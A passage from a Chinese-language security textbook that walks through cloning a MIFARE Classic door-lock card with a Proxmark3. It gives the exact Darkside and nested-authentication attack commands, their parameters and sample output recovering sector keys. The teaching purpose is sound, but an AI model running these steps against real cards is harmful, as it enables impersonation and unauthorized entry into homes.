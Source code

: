 Proxmark3 工具检测到存在 MIFARE Classic 1KB 卡片 1。输出还测试了多个已知的卡片弱点，这些弱点可能允许我们干扰 RFID 卡。特别地，我们看到它的*伪随机数生成器（PRNG）*被标记为薄弱 2。PRNG 实现了 RFID 卡的身份验证控制，并保护 RFID 卡与 RFID 读卡器之间的数据交换。

#### 执行 Darkside 攻击以获取扇区密钥

我们可以利用检测到的弱点之一来识别此卡的扇区密钥。如果我们揭示了扇区密钥，就能完全克隆数据，而且由于该卡包含门锁识别房主所需的所有信息，克隆卡片使得攻击者能够冒充受害者。

如第十章所述，卡片的存储被划分为多个扇区，为了读取一个扇区的数据，卡片读卡器必须首先使用对应的扇区密钥进行身份验证。最简单的攻击方法是 Darkside 攻击，它不需要对卡片数据有任何先前了解。*Darkside 攻击*利用了卡片的伪随机数生成器（PRNG）中的一个缺陷、一个薄弱的验证控制和卡片错误响应的一些组合来提取扇区密钥的部分内容。PRNG 提供了弱随机数；此外，每次卡片通电时，PRNG 都会重置为初始状态。因此，如果攻击者注意时序，他们可以预测 PRNG 生成的随机数，甚至可以随意生成所需的随机数。

你可以通过在 Proxmark3 交互式终端中输入`hf mf mifare`命令来执行 Darkside 攻击：

```
proxmark3> **hf mf mifare**
-------------------------------------------------------------------------
Executing command. Expected execution time: 25sec on average  :-)
Press the key on the proxmark3 device to abort both proxmark3 and client.
-------------------------------------------------------------------------uid(80554b6c) nt(5e012841) par(3ce4e41ce41c8c84) ks(0209080903070606) nr(2400000000)
|diff|{nr}    |ks3|ks3⁵|parity         |
+----+--------+---+-----+---------------+
| 00 |00000000| 2 |  7  |0,0,1,1,1,1,0,0|
…
1 Found valid key:ffffffffffff
```

你应该能在 1 到 25 秒内恢复一个扇区的密钥。我们恢复的密钥是该类型 RFID 卡的默认密钥之一 1。

#### 执行嵌套认证攻击以获取剩余的扇区密钥

一旦知道至少一个扇区密钥，就可以执行一个更快的攻击，称为嵌套认证，以获取其余的扇区密钥，这些密钥是克隆其余扇区数据所需的。*嵌套认证*攻击允许您对一个扇区进行认证，从而与卡片建立加密通信。随后，攻击者对另一个扇区的认证请求将迫使认证算法再次执行。（我们在第十章中详细讲解了这一认证算法的细节。）但这一次，卡片将生成并发送一个挑战，攻击者可以根据 PRNG 漏洞预测这个挑战。该挑战将使用相应扇区的密钥进行加密。然后，系统会向该值添加一些位以达到特定的奇偶校验。如果您知道带有奇偶校验位的可预测挑战及其加密形式，就可以推断出扇区密钥的部分内容。

您可以使用`hf mf nested`命令执行此攻击，后面跟着若干参数：

```
proxmark3> **hf mf nested 1 0 A FFFFFFFFFFFF t**
Testing known keys. Sector count=16          
nested...          
-----------------------------------------------
Iterations count: 0     
|---|----------------|---|----------------|---|          
|sec|key A           |res|key B           |res|          
|---|----------------|---|----------------|---|          
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
|001|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
|002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
…
```

第一个参数指定卡片内存（因为它是 1KB，我们使用值`1`）；第二个参数指定已知密钥的扇区号；第三个参数定义已知密钥的类型（MIFARE 卡中的`A`或`B`）；第四个参数是先前提取的密钥；`t`参数要求将密钥传输到 Proxmark3 内存中。执行完成后，您应该会看到一个矩阵，显示每个扇区的两种密钥类型。

#### 将标签加载到内存
